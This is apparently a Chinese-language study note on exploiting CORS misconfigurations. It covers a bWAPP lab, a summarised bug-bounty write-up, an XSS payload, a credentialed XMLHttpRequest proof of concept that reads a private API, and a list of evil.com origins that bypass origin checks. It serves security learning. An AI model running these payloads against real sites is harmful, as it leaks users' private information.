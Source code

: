 
#About CORS
首先什么是同源
```
Two websites are said to have same origin if both have following in common:

Scheme (http, https)
Host name (google.com, facebook.com, securelayer7.net)
Port number (80, 4567, 7777)

So, sites http://example.com and http://example.com/settings have same origin.
But https://example.com:4657 and http://example.com:8080/settings have different origins

```
那么我们为什么需要同源呢，如果没有同源我们直接发送请求读取返回数据就可以了啊，但是这样是不安全的，所以同源策略(SOP)被创造出来了
```
同源策略(same-origin policy)限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。这是一个用于隔离潜在恶意文件的重要安全机制。
```
那么我们有些情景下需要进行跨源读取，所以CORS出现了
```
CORS是一个W3C标准，全称是"跨域资源共享"（Cross-origin resource sharing）。它允许浏览器向跨源(协议 + 域名 + 端口)服务器，发出XMLHttpRequest请求，从而克服了AJAX只能同源使用的限制
```

###CORS Vulnerability??????
由于配置不当，Origin源未严格，从而造成跨域问题。

#Exploation
1. The attacker hosts a website containing the malicious script for cross domain interaction.

2. Victim i.e. the Admin of the intranet website visits the attacker’s website. Location http://127.0.0.1:4567
![PIC](/assets/images/cors1.png)
3. Response is received from the attacker’s website containing the following malicious payload:
![PIC](/assets/images/cors2.png)
4. As soon as the web page is loaded, ‘makeRequest’ method is called. The method initiates a cross domain request to capture the secret, to the vulnerable intranet application located at ‘http://127.0.0.1:80/bwapp/secret-cors-1.php’
![PIC](/assets/images/cors3.png)

#Out of Scope
write up地址
`https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397`
在这个案例我们可以学习到两种方法
1.通过子域名的XSS结合CORS利用
2.利用特殊符号和浏览器的结合去绕过子域名的检查


##hacking start
```This API endpoint was returning the user’s private information, like full name, email address, ….
To abuse this misconfiguration so we can perform an attack, like leaking users’ private information, we need either to claim an abandoned subdomain (Subdomain Takeover), or find an XSS in one of the existing subdomains.
```
这里也就是像我们说明这个漏洞的利用条件，我们利用这个漏洞需要一个XSS或者子域名接管，他选择了XSS。在子域名中发现了一个XSS
`https://banques.redacted.com/choice-quiz?form_banque="><script>alert(document.domain)</script>&form_cartes=73&iframestat=1`


POC
```HTML
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.status == 200) {
    alert(this.responseText);
    document.getElementById("demo").innerHTML = this.responseText;
    }
};
xhttp.open("GET", "https://www.redacted.com/api/return", true);
xhttp.withCredentials = true;
xhttp.send();
}
cors();
```
成功组合漏洞

##advenced
还是同样的情况，利用需要一个子域名接管或者XSS，但这里它使用了FUZZ去尝试通过特殊字符
![PIC](/assets/images/cors4.png)
这张表里面有各种浏览器支持的特殊字符，也就是说我们可以通过访问`*.target.com.特殊字符.youdomain.com`来绕过正则
这里FUZZ的位置是中间的特殊字符，字典是如下的符号
```
,
&
'
"
;
!
$
^
*
(
)
+
=
`
~
-
_
=
|
{
}
%
```
最终如下域名可以绕过
```
*.ubnt.com!.evil.com
*.ubnt.com".evil.com
*.ubnt.com$.evil.com
*.ubnt.com%0b.evil.com
*.ubnt.com%60.evil.com
*.ubnt.com&.evil.com
*.ubnt.com'.evil.com
*.ubnt.com(.evil.com
*.ubnt.com).evil.com
*.ubnt.com*.evil.com
*.ubnt.com,.evil.com
*.ubnt.com;.evil.com
*.ubnt.com=.evil.com
*.ubnt.com^.evil.com
*.ubnt.com`.evil.com
*.ubnt.com{.evil.com
*.ubnt.com|.evil.com
*.ubnt.com}.evil.com
*.ubnt.com~.evil.com
```
然后用safari访问一下看支不支持，之后注册这个子域名，然后就可以利用了
`https://zzzz.ubnt.com=.evil.com/cors-poc`
这里主要是利用了Safari浏览器支持特殊字符然后进行利用
